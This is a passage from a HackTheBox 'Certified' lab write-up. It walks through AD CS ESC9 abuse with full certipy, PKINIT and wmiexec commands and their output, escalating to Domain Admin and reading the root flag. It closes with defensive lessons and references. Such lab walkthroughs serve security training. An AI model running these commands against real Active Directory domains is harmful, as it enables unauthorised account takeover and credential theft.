Now we can authenticate with the certificate to obtain a `TGT` for `ca_operator`.

```powershell
└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" python3 ~/ADTools/PKINItools/gettgtpkinit.py -cert-pfx fUInHHrv.pfx 'certified.htb/ca_operator' -pfx-pass 'ofFmTUaJDnke9Z7MuOfW' ca_operator.ccache
2026-09-08 14:19:40,240 minikerberos INFO     Loading certificate and key from file
2026-09-08 14:19:40,271 minikerberos INFO     Requesting TGT
2026-09-08 14:19:40,311 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-09-08 14:19:40,311 minikerberos INFO     5639860a2c2b61f3958c378bde7032ad0ab7642941ee19889c160c9af8ac5655
2026-09-08 14:19:40,313 minikerberos INFO     Saved TGT to file
```

Now using the `TGT` of `ca_operator` we can obtain the `NT Hash` of the user.

```powershell
└─[$] export KRB5CCNAME=ca_operator.ccache

└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" python3 ~/ADTools/PKINItools/getnthash.py -key '5639860a2c2b61f3958c378bde7032ad0ab7642941ee19889c160c9af8ac5655' 'certified.htb/ca_operator'
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
d707c541a184e6365c218730df12ada1
```

### Service Enumeration

We can enumerate for `ADCS` or `Active Directory Certificate Service` using `netexec`.

```bash
└─[$] nxc ldap certified.htb -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584' -M adcs                      [7:38:55]
[*] Initializing LDAP protocol database
LDAP        10.129.231.186  389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.231.186  389    DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 
ADCS        10.129.231.186  389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.231.186  389    DC01             Found PKI Enrollment Server: DC01.certified.htb
ADCS        10.129.231.186  389    DC01             Found CN: certified-DC01-CA
```

### Enumerating Certificate templates with `certipy`

Now lets work on enumerating `certificate templates` under the `ca_operator` user on the domain.

```powershell
└─[$] certipy find -u 'ca_operator@certified.htb' -hashes 'd707c541a184e6365c218730df12ada1' -stdout                [7:40:58]
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'certified-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'certified-DC01-CA'
[*] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-05-13T15:48:52+00:00
    Template Last Modified              : 2024-05-13T15:55:20+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
  1
    Template Name                       : KerberosAuthentication
    Display Name                        : Kerberos Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDomainDns
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
                                          Smart Card Logon
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 80 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-05-13T15:43:41+00:00
    Template Last Modified              : 2025-06-11T21:13:48+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\Enterprise Read-only Domain Controllers
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Domain Controllers
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Enterprise Domain Controllers
      Object Control Permissions
        Owner                             : CERTIFIED.HTB\Enterprise Admins
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Domain Controllers
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Enterprise Domain Controllers
        Write Property AutoEnroll       : CERTIFIED.HTB\Domain Controllers
                                          CERTIFIED.HTB\Enterprise Domain Controllers
  2
    Template Name                       : OCSPResponseSigning
    Display Name                        : OCSP Response Signing
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireDnsAsCn
    Enrollment Flag                     : AddOcspNocheck
                                          Norevocationinfoinissuedcerts
    Extended Key Usage                  : OCSP Signing
    Requires Manager Approval           : False
    Requires Key Archival               : False
    RA Application Policies             : msPKI-Asymmetric-Algorithm`PZPWSTR`RSA`msPKI-Hash-Algorithm`PZPWSTR`SHA1`msPKI-Key-Security-Descriptor`PZPWSTR`D:P(A;;FA;;;BA)(A;;FA;;;SY)(A;;GR;;;S-1-5-80-3804348527-3718992918-2141599610-3686422417-2726379419)`msPKI-Key-Usage`DWORD`2`
    Authorized Signatures Required      : 0
    Schema Version                      : 3
    Validity Period                     : 2 weeks
    Renewal Period                      : 2 days
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-05-13T15:43:41+00:00
    Template Last Modified              : 2024-05-13T15:43:41+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                             : CERTIFIED.HTB\Enterprise Admins
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
  3
    Template Name                       : RASAndIASServer
    Display Name                        : RAS and IAS Server
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireCommonName
    Enrollment Flag                     : AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
...
```

So right here we get a lot of information but not all of it we need to specifically worry about, we are attempting to find a vulnerable certificate templates that we can leverge as `ca_operator`.

Scrolling all the way to the bottom we can see the following result.

```powershell
    [+] User Enrollable Principals      : CERTIFIED.HTB\Domain Users
    [*] Remarks
      ESC2 Target Template              : Template can be targeted as part of ESC2 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template has schema version 1.
      ESC3 Target Template              : Template can be targeted as part of ESC3 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template has schema version 1.
```

`certipy` also has a feature to specifically look for vulnerable templates.

```powershell
└─[$] certipy find -u 'ca_operator@certified.htb' -hashes 'd707c541a184e6365c218730df12ada1' -vulnerable -stdout    [7:41:57]
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'certified-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'certified-DC01-CA'
[*] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-05-13T15:48:52+00:00
    Template Last Modified              : 2024-05-13T15:55:20+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                             : CERTIFIED.HTB\Administrator
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

So right here `ECS9` Template has no security extension. Why is this a vulnerability?

#### Simple way of explaining it
Think of Active Directory like an office building, and the Certificate Authority like the security desk that prints employee badges.

- **The Normal Way:** When you get a digital badge, security prints your **unique Employee ID Number (SID)** right onto the internal chip. No matter what name is printed on the front of the badge, the computer system reads the chip and knows exactly who you are.
- **The ESC9 Flaw ("No Security Extension"):** This setting tells the security desk: _"Don't bother embedding the ID chip. Just print the badge."_
- **The Vulnerability:** Without that secure chip, the computer systems can only look at the **text name** printed on the badge to see who is trying to enter.
- **The Attack:** If a low-level employee has permission to change their own display name in the directory, they can temporarily change it to "CEO." They walk up to the desk, get a badgeless certificate that says "CEO" on the front, and the computer system lets them right into the executive suite because it has no chip to prove otherwise.

Referencing [THIS ARTICLE](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension) we can see how to leverage this `ECS9` certificate vulnerability. which allows us to modify the `UPN` (User Name Principal) of users.

What the goal is, is to change the `ca_operator` users `UPN` from `ca_operator@certified.htb` to `Administrator`

### Updating `management_svc` 

Here using `certipy` we can successfully exploit this vulnerability.

```powershell
└─[$] certipy account update -username 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn 'Administrator'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

Once our certificate has changed we can now request a certificate to that new `UPN`.

```powershell
└─[$] certipy req -username 'ca_operator@certified.htb' -hashes 'd707c541a184e6365c218730df12ada1' -ca 'certified-DC01-CA' -template certifiedAuthentication -debug
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[+] DC host (-dc-host) not specified. Using domain as DC host
[+] Nameserver: None
[+] DC IP: None
[+] DC Host: 'CERTIFIED.HTB'
[+] Target IP: None
[+] Remote Name: 'CERTIFIED.HTB'
[+] Domain: 'CERTIFIED.HTB'
[+] Username: 'CA_OPERATOR'
[+] Trying to resolve 'CERTIFIED.HTB' at '127.0.0.53'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.129.231.186
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.231.186[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.231.186[\pipe\cert]
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[+] Attempting to write data to 'administrator.pfx'
[+] Data written to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

now we can request a `TGT` from the `Administrator` user.

```powershell
┌─[anarchy@pwn] - [~/htb/Certified] - [7324]
└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" python3 ~/ADTools/PKINItools/gettgtpkinit.py -cert-pfx administrator.pfx -pfx-pass '' 'certified.htb/Administrator' administrator.ccache
2026-09-08 15:29:31,293 minikerberos INFO     Loading certificate and key from file
2026-09-08 15:29:31,358 minikerberos INFO     Requesting TGT
2026-09-08 15:29:31,394 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-09-08 15:29:31,394 minikerberos INFO     909fbdaa0b8e94eab4978f94e647a45d83ee8ff6f31388b29034db4ad452977d
2026-09-08 15:29:31,396 minikerberos INFO     Saved TGT to file
```

Now with this stored `TGT` we can use `wmiexec` to authenticate under the `DC` as `Administrator.`

```powershell
└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" python3 ~/ADTools/impacket/examples/wmiexec.py 'certified.htb/Administrator@dc01.certified.htb' -k -no-pass
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
certified\administrator

C:\>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is EA74-A0A7

 Directory of C:\Users\Administrator\Desktop

10/22/2024  01:15 PM    <DIR>          .
10/22/2024  01:15 PM    <DIR>          ..
09/08/2026  08:59 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,943,593,472 bytes free

C:\Users\Administrator\Desktop>type root.txt
772ea926172fd03f66622539052fb8c2

C:\Users\Administrator\Desktop>
```

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `C:\Users\management_svc\desktop\user.txt` |
| `root.txt` | `C:\Users\Administrator\Desktop\root.txt` |

---

## Lessons and Takeaways

- **Audit ACL edges in BloodHound**, not just group membership. This entire chain, from an unprivileged assumed-breach account all the way to Domain Admin, is three ACL edges (`WriteOwner`, `GenericWrite`, `GenericAll`) and never a single cracked password.
- **Restrict who can write `msDS-KeyCredentialLink`.** Shadow Credentials work on any account you have `GenericWrite`/`GenericAll` over, and PKINIT turns that certificate straight into an NT hash, monitor for unexpected writes to that attribute.
- **`GenericAll` over a service account is a live credential.** It let me reset `ca_operator`'s password outright with no crack needed, treat that ACL as equivalent to already knowing the password.
- **Audit certificate templates for ESC9 ("No Security Extension").** A template published without the security extension lets any principal who can edit their own `userPrincipalName` mint a certificate that authenticates as whoever that UPN says, restrict template enrollment and require the security extension domain-wide.
- **NTLM/pass-the-hash still works end to end.** Nothing here needed a plaintext password; the hash alone was enough for WinRM.

---

## Related Writeups

- **ACL abuse / BloodHound privesc chains:** [EscapeTwo](/writeups/hackthebox/windows/easy/escapetwo/), [VulnNet Active](/writeups/tryhackme/windows/medium/vulnnet-active/), [Reset](/writeups/tryhackme/windows/hard/reset/)
- **Shadow Credentials:** [Reset](/writeups/tryhackme/windows/hard/reset/), [EscapeTwo](/writeups/hackthebox/windows/easy/escapetwo/)
- **AD CS / ESC-series certificate abuse:** [EscapeTwo](/writeups/hackthebox/windows/easy/escapetwo/), [Anubis](/writeups/hackthebox/windows/insane/anubis/)
- **Kerberoasting:** [VulnNet Roasted](/writeups/tryhackme/windows/medium/vulnnet-roasted/), [Attacktive Directory](/writeups/tryhackme/windows/medium/attacktive-directory/), [Enterprise](/writeups/tryhackme/windows/hard/enterprise/)

## References

- ESC9 - No Security Extension (The Hacker Recipes) <https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension>
- Certipy wiki (ESC9, Shadow Credentials) <https://github.com/ly4k/Certipy/wiki>
- Certified Pre-Owned (SpecterOps, ADCS attack primitives) <https://posts.specterops.io/certified-pre-owned-d95910965cd2>
- PKINITtools (dirkjanm) <https://github.com/dirkjanm/PKINITtools>
- pywhisker <https://github.com/ShutdownRepo/pywhisker>
